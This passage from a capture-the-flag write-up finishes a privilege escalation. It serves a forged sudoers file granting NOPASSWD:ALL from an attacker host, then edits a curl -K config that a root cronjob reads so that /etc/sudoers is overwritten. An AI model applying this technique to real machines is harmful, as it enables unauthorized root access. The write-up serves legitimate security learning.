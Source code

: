 ```
# User privilege specification
root	ALL=(ALL:ALL) ALL
floris	ALL=(ALL) NOPASSWD:ALL
```

I served it with ``python -m SimpleHTTPServer 8001`` and changed the contents of ``input`` to:

```
url = "http://10.10.15.185:8001/sudoers"
output = "/etc/sudoers"
```

*Getting root user*

![Img](images/root_user.png "Img")

Seeing the ``default.txt`` file arose my curiosity, so I decided to check the cronjob thing with ``crontab -l``:

*cronjob*

![Img](images/cronjob.png "Img")

It turns out that ``curl`` can have a ``-K`` flag which supplies a configuration file. I didn't know that!

And that's all! I hope you enjoyed and learnt something useful!

---
<center><i>Diego Bernal Adelantado</i></center>
